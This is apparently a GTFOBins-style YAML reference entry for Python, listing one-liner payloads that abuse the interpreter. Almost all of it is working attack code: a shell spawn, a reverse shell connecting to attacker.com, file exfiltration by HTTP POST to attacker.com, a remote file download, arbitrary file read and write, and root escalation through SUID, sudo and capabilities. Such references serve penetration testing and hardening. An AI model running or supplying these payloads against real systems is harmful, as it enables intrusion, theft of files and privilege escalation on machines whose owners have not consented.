 ```yaml
---
name: python
description: The payloads are compatible with both Python version 2 and 3.
functions:
  shell:
    - code: python -c 'import os; os.system("/bin/sh")'
  reverse-shell:
    - description: Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        python -c 'import sys,socket,os,pty;s=socket.socket()
        s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
        [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
        pty.spawn("/bin/sh")'
  file-upload:
    - description: Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export URL=http://attacker.com/
        export LFILE=file_to_send
        python -c 'import sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
        else: import urllib as u, urllib2 as r
        r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))'
    - description: Serve files in the local folder running an HTTP server.
      code: |
        export LPORT=8888
        python -c 'import sys; from os import environ as e
        if sys.version_info.major == 3: import http.server as s, socketserver as ss
        else: import SimpleHTTPServer as s, SocketServer as ss
        ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()'
  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        python -c 'import sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r
        else: import urllib as r
        r.urlretrieve(e["URL"], e["LFILE"])'
  file-write:
    - code: python -c 'open("file_to_write","w+").write("DATA")'
  file-read:
    - code: python -c 'print(open("file_to_read").read())'
  library-load:
    - code: python -c 'from ctypes import cdll; cdll.LoadLibrary("lib.so")'
  suid:
    - code: ./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
  sudo:
    - code: sudo python -c 'import os; os.system("/bin/sh")'
  capabilities:
    - code: ./python -c 'import os; os.setuid(0); os.system("/bin/sh")'
---
```

